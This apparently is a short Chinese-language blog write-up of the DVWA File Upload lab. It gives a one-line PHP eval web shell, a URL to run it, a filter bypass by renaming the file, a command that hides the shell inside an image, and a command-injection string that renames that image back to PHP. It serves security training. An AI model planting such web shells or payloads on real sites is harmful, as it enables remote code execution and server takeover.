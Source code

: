 ```yaml
---
layout: post
title: File Upload
subtitle: File Upload
date: 2024-08-01 20:03
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
---
```


# 文件上传漏洞
### LOW

the.php

```php
<?php eval($_GET['bckdor'])?>
```

构造url：http://192.168.30.131/dvwa/hackable/uploads/the.php?bckdor=

```php
phpinfo();
system('ls');
```

**中国菜刀**

```php
<?php eval($_POST['bckdor'])?>
```
### MEDIUM

将the.php改为the.jpg

burpsuit抓取request，修改文件后缀
### HIGH

准备图片image.png和hack.php

```shell
#生成带有木马的图片
#image.png/b中“b”表示“二进制文件”，hack.php/a中“a"表示ASCII码文件
copy image.jpg/b+hack.php/a hack.jpg
```

利用[Command Injection]

```
127.0.0.1|mv ../../hackable/uploads/hack.jpg ../../hackable/uploads/hack.php
```

